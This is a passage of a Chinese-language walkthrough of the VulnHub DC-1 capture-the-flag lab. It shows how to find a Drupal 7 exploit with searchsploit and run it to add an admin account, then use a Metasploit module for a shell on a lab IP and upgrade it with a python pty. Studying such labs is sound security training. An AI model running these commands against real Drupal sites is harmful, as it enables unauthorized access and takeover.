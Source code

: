 ```shell
searchsploit drupal 7
```

以这个进行测试

![](D:\stu\vulnhub\DC靶场\pic-1\7.jpg)

首先使用`locate`定位文件， 然后使用`cp`复制到当前目录，为了方便使用

然后使用`python2`执行该脚本即可，这里脚本就是向网站添加用户名和密码

```shell
python2 34992.py -t http://192.168.10.12 -u qwer -p 123
```

![](D:\stu\vulnhub\DC靶场\pic-1\8.jpg)

然后使用生成的用户名和密码登录，发现确实可以使用，并直接发现了`flag3`

![](D:\stu\vulnhub\DC靶场\pic-1\9.jpg)

这里也就看到版本为`7.24`版本，不过到这里我就发现不到利用点了，唉，最终还是要使用`msf`，我这里就是不想使用`msf`的

# 漏洞利用

使用`msf`搜索，发现一个可执行，并且包含众多版本，就是使用这个

![](D:\stu\vulnhub\DC靶场\pic-1\10.jpg)

```shell
use 1				#使用该脚本
options				#查看需要进行的配置
set rhost 192.168.10.12	#配置目标IP地址
run					#执行
```

执行后，会提示成功，不过这里需要自己输入`shell`命令进入靶机

![](D:\stu\vulnhub\DC靶场\pic-1\11.jpg)

使用`dpkg`命令查看靶机内安装`python`的版本

```shell
dpkg -l | grep python
```

然后使用对于版本，获取一个交互式界面

```shell
python2 -c 'import pty;pty.spawn("/bin/bash")'
```

![](D:\stu\vulnhub\DC靶场\pic-1\12.jpg)

# 寻找flag1

